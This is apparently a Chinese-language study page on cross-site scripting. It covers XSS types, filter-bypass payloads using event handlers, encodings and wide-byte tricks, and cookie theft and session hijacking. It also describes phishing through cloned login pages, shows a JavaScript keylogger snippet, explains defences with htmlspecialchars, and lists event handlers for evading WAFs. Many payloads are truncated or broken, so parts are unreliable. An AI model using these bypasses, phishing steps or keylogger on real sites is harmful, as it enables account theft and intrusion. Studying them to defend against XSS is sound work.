








# 一、简介

**1.XSS****全称是跨站脚本****(Cross Site Scripting)**

   为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

   eg：

   被XSS改变的代码

   <input id=" txtinput" class=" ssinput" type=" text" jskey=" searchQ" x=””onmouseover=" alert(4438)" value="XSStest" name="">

   正常的代码

   <input id=" txtinput" class=”ssinput" type=' 'text" jskey=" searchQ" value="test" name="">

   

**2.XSS****的原理**

   对非预期输入的信任,攻击者控制可控参数

   XSS攻击，通常指黑客通过“HTML注入”篡改网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。在一开始，这种攻击的演示案例是跨域的，所以叫做“跨站脚本”。当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

 

 

 

**3.****存储型与反射型**

   反射型XSS是指通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，带有恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。 （服务器中没有这样的页面和内容）。

   储存型XSS也被叫做持久型XSS,，它的特点是持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等（用户影响范围大）

   区别就在于，存储型的攻击代码是存储在数据库等地方，每次访问页面都会触发XSS，而反射型则是通过URL参数等方式在访问网页的时候直接提交攻击代码然后经过服务端再反射展示在页面上。

 

 

**4.DOM** **型****XSS**

   dom结构图

   

   实际上，这种类型的XSS并非按照“数据是否保存在服务器端”来划分，DOM Based XSS 从效果上来说也是反射型XSS。单独划分出来，是因为DOM Based XSS的形成原因比较特别，发现它的安全专家专门提出了这种类型的XSS。这种利用也需要受害者点击链接来触发，DOM型XSS是前端代码中存在了漏洞，而反射型是后端代码中存在了漏洞。

   JS代码通过获取页面referer来构造一个img节点来，然后加入到页面DOM树来实现发起一个GET请求，从而实现一个统计访问来源的目的这样一个功能，那么我们就可以通过构造一个网址中带有攻击代码的页面，通过A链接访问存在XSS的目标页面，于是乎当页面的JS在构造那样一个img节点的时候就将带有Payload的代码的来源地址直接构造到页面，于是就导致了DOM 型XSS的产生。

 

 

**5.****一些单独名称的****XSS****类型**

   \> mXSS突变型XSS

​     指的是由于编码等问题导致Payload变异而产生的一种类型的XSS

​     qq对格式的转换：

   \> UXSS通用型XSS(Universal Cross- Site Scripting)

​     UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型一般导致的后果就是Bypass同源策略严格来说UXSS应该算不上传统的XSS

   

   \>Flash XSS

​     由Flash导致产生的XSS,问题主要出现在Flash的实现代码.上

   \>UTF-7 XSS

​     主要是UTF- 7编码场景下的XSS,对应攻击Payload也要转换为UTF-7编码的结果

   \>MHTML XSS

​     是IE浏览器下的一种特殊型的XSS,因为是源于仅限低版本IE支持的一个MHTML协议进行攻击的

   \>CSS XSS

​     是一类由于CSS支持的特性导致只在低版本IE下可能导致的XSS

   \>VBScript XSS

​     同样是出自微软，仅在低版本IE下支持的由VBScript语句构建的XSS

 

# 二、绕过

**XSS探测**

   注意看每个提交的参数

   设置独一无二字符串提交，在响应中寻找

   输入的内容得到输出，可能存在xss漏洞

   首先判断，是否过滤了 < , > , / 等符号，如果都没有过滤，一般可以直接XSS了

**Burpsuite测试XSS**

   使用Burpsuite截取HTTP请求，修改提交参数。

**HTML事件触发XSS**

   若双引号、空格被去掉，无法弹窗

   若直接把输入的payload进行输出，但经过转义或者过滤，无法弹窗

   闭合input, 利用外部标签触发Xss

   若过滤了" 、<>，无法弹窗

**XSS漏洞挖掘技巧**

   利用谷歌搜索XSS漏洞：

​     inurl:'Product.asp?BigClassName

​     地址中存在百分号的URL和汉字的URL中大部分都会存在XSS漏洞。

1.利用**html事件**构造payload     "onmouseover="alert(document.domain)"  鼠标移动过去触发

2.闭合html**标签**构造payload

   </option>

  </b>

3.利用**html加载媒体**构造payload

​     svg     "><svg onload=alert(document.domain)> %0a   加载svg时触发对应事件

​     img     ">

4.利用**html属性**构造payload

​     

XSS Payload长度计算

   使用Python内置函数len(字符串)计算对应的字节数。

5.利用**其他字符**绕过

   **空格/回车/Tab**

   JS自身的性质：Javascript通常以分号结尾，如果解析引擎能确定一个语句时完整的，且行尾有换行符，则分号可省略而如果不是完整的语句，javascript则会继续处理，直到语句完整结束或分号。

​     111 onmouseover=alert(document.domain);

​        

   用于绕过替换script和on事件的XSS

   

   **双写绕过**

​     ">

​     

   **大小写绕过**

​     

   **%0a 换行符**

​     在注释里面有输出的，%0a(换行符)绕过

​     

   **用+代替空格**

6.利用**Javascript伪协议**

​     javascript:alert(document.domain)

7.**编码绕过**

​     base64编码：

​         ">

​         atob() :用于解码使用 base-64 编码的字符串。

​     URL编码

​     html编码

​     js编码 ...

​    双斜杠+ 16进制绕过：

​         <> ----> \x3c \x3e

​         \x 即为javascript可以识别的字符编码

​         Payload: \\x3cscript\\x3ealert(document. domain);\\x3c/script\\x3e

​     双斜杠+unicode绕过

​         <> ----> \lu003c \lu003e

​         Payload: \\lu003cscript\\u003ealert(document.domain);\\lu003c/script\\lu003e

8.**宽字节绕过**

   观察其编码格式

   GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节， 不仅gbk，韩文、日文等都是宽字节，都有可能存在宽字节注入漏洞

   使用了GBK等编码，我们就可以利用宽字节xss。构造如下payload：

​     %c0%22 />//

​     %c0和%df一样，也是超出了GBK的范围，此时在执行过滤(被\转义时)操作时，源代码就变成了

​      <input type="text" id="name" value="%c0%5c%22 />//">

   当过滤器发现了%22，然后加入转义（%5c）,但在解析的时候碰到%c0,于是%5c与%c0合并成一个特殊字符，我们的"得以保留。

​     <input type="text" id="name" value="%c0%5c%22 />//">

9.利用**IE特性**绕过XSS过滤(只适应ie)

   IE中两个反引号 `` (tab键上方)可以闭合一个左边双引号。

​     ``onmousemove=alert(document.domain)

10.利用**CSS特性**绕过XSS过滤

   CSS特性讲解

​     css不同属性间用；隔开

​     background:ur("javascript:alert(document.domain);");设置背景颜色

​     设置backgroud:url，利用javascript伪协议执行js。 ,目前IE浏览器支持，其他浏览器已经不再支持。

   payload：background-color:#f00;("javascript:alert(document.domain);");

11.**正中利用CSS触发XSS**

   注释绕过关键字过滤

​     css中的注释/**/

​     绕过对关键字expression的过滤。ex/**/pression

   Payload:xss:expres/**/sion(if(!window.x){alert(document.domain);window.x=1;})

​     windows:获取全局窗口变量，因为没有声明x变量

​     后面windows.x=1，设置x值，下次判断不会弹窗；不设置的话将会无限弹窗

12.**JSON中的XSS**

​     JSON(JavaScript Object Notation)是种轻量级的数据交换格式。易于人阅读和编写， 同时也易于机器解析和生成，并有效地提升网络传输效率。JSON最常用的格式是对象的键值对。例如下面这样:

​       {"firstName": "Brett", "lastName": "McL aughlin"}

# 三、利用

要实时关注html标签的更新

**XSS****利用框架**

**一、xss盗取cookie**

**1.****反射****XSS****盗取****cookie**

url?uname:#

 

**3.****利用cookie会话劫持**

访问目标站点，修改Cookie为Cookie.txt文件中的内容。

**4.****劫持会话后的操作**

\> 进入后台寻找上传点等进一步利用漏洞给上传一句话Webshell

\> 修改配置

**二、xss篡改连接**

**1. JS****代码讲解**

window.onload当窗口加载时，执行匿名函数。

使用for循环遍历所有获得的链接a标签。

**2.** **篡改链接指向流量****URL**

刷流量，某些站点的重定向。

[https://weibo.com/2081681517/GEZpU841G?ref=feedsdk&type=comment#](https://weibo.com/2081681517/GEZpU841G?ref=feedsdk&type=comment) rnd1540197060886

**3.** **篡改链接指向恶意URL**

Beef进行恶意链接生成，以及利用hook.js执行其他命令。

 

**三、xss盗取用户信息**

**1.****盗取用户信息原理**

克隆网站登陆页面，利用存储XSS设置跳转代码，如果用户访问即跳转到克隆网站的登陆页面，用户输入登陆，账号和密码被存储。

**2. setookit****工具克隆网站**

setookit -> 1 -> 2 -> 3 -> 2 站点克隆（本地）

**3.****存储XSS跳转克隆网站**

xss payload: 

**4.****查看盗取账号和密码**

 

 

**四、钓鱼**

重定向钓鱼

跨框架钓鱼

 # 四、防御

**一、****XSS- filter****过滤器介绍**

   输入检查 XSS Filter 对输入内容做格式检查，类似“白名单”，可以让一些基于特殊字符的攻击失效。在客户端JS和服务器端代码中实现相同的输入检查（服务器端必须有）。

   输出检查 在变量输出到html页面时，可以使用编码或转义的方式来防御XSS攻击 HtmlEncode：将字符转成HTMLEntities，对应的标准是ISO-8859-1。

**1. htmlspecialchars()****函数**

   在使用PHP开发时，可以使用htmlspecialchars函数进行HTML的转义。它最多可以接收4个参数，与安全性相关的前3个参数尤为重要。

  htmlspecialchars(string,flags, character-set,double_encode)

​     string 必需。规定要转换的字符串。

​     flags 可选。规定如何处理引号、无效的编码以及使用哪种文档类型

​     $quote_style   转换方法(ENT_NOQUOTES,ENT_COMPAT,ENT_QUOTES)

​     $charset   字符编码。例如：UTF-8、GBK

​     htmlspecialchars()函数把预定义的字符转换为HTML实体。

预定义的字符是:

\> &(和号) 成为 &

\> " (双引号)成为 "

\> ' (单引号)成为 '

\> < (小于)成为 <

​         \> >(大于)成为 >

 

​     

函数中的转换对象字符如下表：

 

$name = preg_replace("/ ">

 ">

弹出网站Cookie：

监听键盘onkeydown事件：

document.onkeydown=funciont(e){

if(!e)e=window.event;

try(hijack();)catch(ex){}

}

JavaScript 键盘记录器还可以捕获用户按下的特定键，在 IE浏览器中可以使用如下代码实现：

<script>

function keyDown(){

var keycode = event.keyCode;

var realkey = String.fromCharCode(event.keyCode);

alert("按键码: " + keycode + " 字符: " + realkey);

}

document.onkeydown = keyDown;

</scrip>

 

 

以下物品具有绕过某些保护的装置（“WAF”、“Blacklist”等）。

对于Onerror类型的事件被封锁的情况

Javascripts事件列表onclick

oncontextmenu

ondblclick

onmousedown

onmouseenter

onmouseleave

onmousemove

onmouseover

onmouseout

onmouseup

onkeydown

onkeypress

onkeyup

onabort

onbeforeunload

onerror

onhashchange

onload

onpageshow

onpagehide

onresize

onscroll

onunload

onblur

onchange

onfocus

onfocusin

onfocusout

oninput

oninvalid

onreset

onsearch

onselect

onsubmit

ondrag

ondragend

ondragenter

ondragleave

ondragover

ondragstart

ondrop

oncopy

oncut

onpaste

onafterprint

onbeforeprint

onabort

oncanplay

oncanplaythrough

ondurationchange

onended

onerror

onloadeddata

onloadedmetadata

onloadstart

onpause

onplay

onplaying

onprogress

onratechange

onseeked

onseeking

onstalled

onsuspend

ontimeupdate

onvolumechange

onwaiting

onerror

onmessage

onopen

onwheel

ononline

onoffline

onshow

ontoggle

onwheel

 

 

 

 